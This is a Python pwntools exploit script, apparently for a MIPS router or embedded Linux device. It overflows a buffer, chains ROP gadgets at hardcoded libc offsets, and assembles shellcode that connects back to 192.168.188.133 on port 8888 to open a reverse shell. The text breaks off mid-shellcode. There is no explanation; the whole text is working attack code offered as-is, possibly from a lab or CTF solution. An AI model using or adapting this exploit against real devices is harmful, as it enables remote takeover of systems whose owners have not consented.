 ```
from pwn import *
import requests
context(os = 'linux', arch = 'mips', log_level = 'debug')
 
libc_base = 0x77f34000
 
payload = b'a'*0x3cd
payload += b'a'*4
payload += p32(libc_base + 0x436D0) # s1  move $t9, $s3 (=> lw... => jalr $t9)
payload += b'a'*4
payload += p32(libc_base + 0x56BD0) # s3  sleep
payload += b'a'*(4*5)
payload += p32(libc_base + 0x57E50) # ra  li $a0, 1 (=> jalr $s1)
 
payload += b'a'*0x18
payload += b'a'*(4*4)
payload += p32(libc_base + 0x37E6C) # s4  move  $t9, $a1 (=> jalr $t9)
payload += p32(libc_base + 0x3B974) # ra  addiu $a1, $sp, 0x18 (=> jalr $s4)
 
shellcode = asm('''
    slti $a0, $zero, 0xFFFF
    li $v0, 4006
    syscall 0x42424
 
    slti $a0, $zero, 0x1111
    li $v0, 4006
    syscall 0x42424
 
    li $t4, 0xFFFFFFFD
    not $a0, $t4
    li $v0, 4006
    syscall 0x42424
 
    li $t4, 0xFFFFFFFD
    not $a0, $t4
    not $a1, $t4
    slti $a2, $zero, 0xFFFF
    li $v0, 4183
    syscall 0x42424
 
    andi $a0, $v0, 0xFFFF
    li $v0, 4041
    syscall 0x42424
    li $v0, 4041
    syscall 0x42424
 
    lui $a1, 0xB821 # Port: 8888
    ori $a1, 0xFF01
    addi $a1, $a1, 0x0101
    sw $a1, -8($sp)
 
    li $a1, 0x85BCA8C0 # IP: 192.168.188.133
    sw $a1, -4($sp)
    addi $a1, $sp, -8
 
    li $t4, 0xFFFFFFEF
    not $a2, $t4
    li $v0, 4170
    syscall 0x42424
 
    lui $t0, 0x6962
    ori $t0, $t0,0x2f2f
    sw $t0, -20($sp)
```